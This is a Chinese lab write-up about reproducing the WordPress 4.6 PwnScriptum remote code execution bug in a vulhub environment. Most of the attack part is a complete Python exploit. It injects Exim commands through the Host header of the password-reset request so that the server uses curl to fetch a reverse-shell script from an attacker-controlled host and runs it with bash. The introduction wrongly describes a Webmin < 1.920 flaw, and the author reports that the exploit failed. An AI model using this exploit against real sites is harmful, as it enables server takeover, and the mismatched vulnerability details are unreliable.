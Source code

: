 

# WordPress 4.6远程执行代码漏洞（PwnScriptum）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->远程代码执行

### 0x01漏洞介绍

​			参考链接的有效负载不完整。深入阅读代码后，我发现只有在1.920之前不存在主体的用户参数时，才能执行命令，而在1.920处没有限制。

​			影响版本

  		Webmin < 1.920

### 0x02漏洞复现

​	访问`http://your-ip:8080/`，设置管理员用户名和密码以使用它（数据库已配置且不会自动更新）

我们需要满足以下要求才能利用此漏洞：

1. 执行的命令不能包含一些特殊的字符，例如`:`，`'`，`"`等。
2. 该命令将转换为小写字母
3. 该命令需要使用绝对路径
4. 需要知道一个现有的用户名

为了解决这些问题，漏洞作者提出了$`substr{0}{1}{$spool_directory}}`而不是`/`，使用`${substr{10}{1}{$tod_log} }`了替换空格的方法。

但是，仍然有很多字符无法使用。因此，我们需要将该命令放在第三方网站上，然后通过将其下载到`/tmp`目录中`curl -o /tmp/rce example.com/shell.sh`。

因此，展开过程如下：

1. 编写反向外壳的exp并将其放在站点上。exp具有以下要求：
   - 整个url的大写字母将转换为小写，因此文件路径不应包含大写字母。
   - 无法重定向对此页面的访问，因为跟随重定向的参数为`-L`（大写）。
2. 拼接命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和`/bin/bash /tmp/rce`。
3. 将`/`命令中的空格和转换为`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`。
4. 产生HTTP Host标头：`target(any -froot@localhost -be ${run{command}} null)`。
5. 依次发送这两个数据包。

这是[expliot.py](https://github.com/vulhub/vulhub/blob/master/wordpress/pwnscriptum/exploit.py)，更改`target`为目标站点，更改为[现有](https://github.com/vulhub/vulhub/blob/master/wordpress/pwnscriptum/exploit.py)`user`用户名，更改`shell_url`为有效负载站点。

exp

```
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://192.168.0.142' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = '192.168.0.141:8000/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'

def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command


session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)

session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```

![WordPress_远程执行代码漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/WordPress_远程执行代码漏洞_1.jpg)

![WordPress_远程执行代码漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/WordPress_远程执行代码漏洞_2.jpg)

exp总执行失败

未接到shell